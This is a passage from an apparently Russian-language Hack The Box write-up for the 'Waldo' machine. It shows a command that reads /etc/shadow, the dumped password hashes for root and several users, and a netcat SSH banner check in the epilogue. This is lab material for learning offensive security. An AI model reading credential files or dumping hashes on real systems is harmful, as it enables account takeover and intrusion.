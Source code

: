```text
monitor@waldo:~$ tac /etc/shadow | tac
root:$6$tRIbOmog$v7fPb8FKIT0QryKrm7RstojMs.ZXi4xxHz2Uix9lsw52eWtsURc9dwWMOyt4Gpd6QLtVtDnU1NO5KE5gF48r8.:17654:0:99999:7:::
daemon:*:17653:0:99999:7:::
bin:*:17653:0:99999:7:::
sys:*:17653:0:99999:7:::
sync:*:17653:0:99999:7:::
games:*:17653:0:99999:7:::
man:*:17653:0:99999:7:::
lp:*:17653:0:99999:7:::
mail:*:17653:0:99999:7:::
news:*:17653:0:99999:7:::
uucp:*:17653:0:99999:7:::
proxy:*:17653:0:99999:7:::
www-data:*:17653:0:99999:7:::
backup:*:17653:0:99999:7:::
list:*:17653:0:99999:7:::
irc:*:17653:0:99999:7:::
gnats:*:17653:0:99999:7:::
nobody:*:17653:0:99999:7:::
systemd-timesync:*:17653:0:99999:7:::
systemd-network:*:17653:0:99999:7:::
systemd-resolve:*:17653:0:99999:7:::
systemd-bus-proxy:*:17653:0:99999:7:::
_apt:*:17653:0:99999:7:::
avahi-autoipd:*:17653:0:99999:7:::
messagebus:*:17653:0:99999:7:::
sshd:*:17653:0:99999:7:::
steve:$6$MmXo3me9$zPPUertAwnJYQM8GUya1rzCTKGr/AHtjSG2n3faSeupCCBjoaknUz2YUDStZtvUGWuXonFqXKZF8pXCkezJ.Q.:17653:0:99999:7:::
monitor:$6$IXQ7fATd$RsOewky58ltAbfdjYBHFk9/q5bRcUplLnM9ZHKknVB46smsKn4msCOXDpyYU6xw43rGqJl5fG3sMmEaKhJAJt/:17654:0:99999:7:::
app-dev:$6$RQ4VUGfn$6WYq54MO9AvNFMW.FCRekOBPYJXuI02AqR5lYlwN5/eylTlTWmHlLLvJ4FDp4Nt0A/AX2b3zdrvyEfwf8vSh3/:17654:0:99999:7:::
```

Waldo пройден :triumph:

![owned-user.png]({{ "/img/htb/boxes/waldo/owned-user.png" | relative_url }})
{: .center-image}

![owned-root.png]({{ "/img/htb/boxes/waldo/owned-root.png" | relative_url }})
{: .center-image}

![trophy.png]({{ "/img/htb/boxes/waldo/trophy.png" | relative_url }})
{: .center-image}

# Эпилог
## Путаница с SSH
### nc ... 22
Если посмотреть на баннеры OpenSSH изнутри и снаружи docker-контейнера waldo с помощью netcat, то в силу их различия еще раз можно удостовериться, что существуют некие правила маршрутизации, перебрасывающие нас внутрь докера:
```text
root@kali:~# nc 10.10.10.87 22
SSH-2.0-OpenSSH_7.5
^C
```
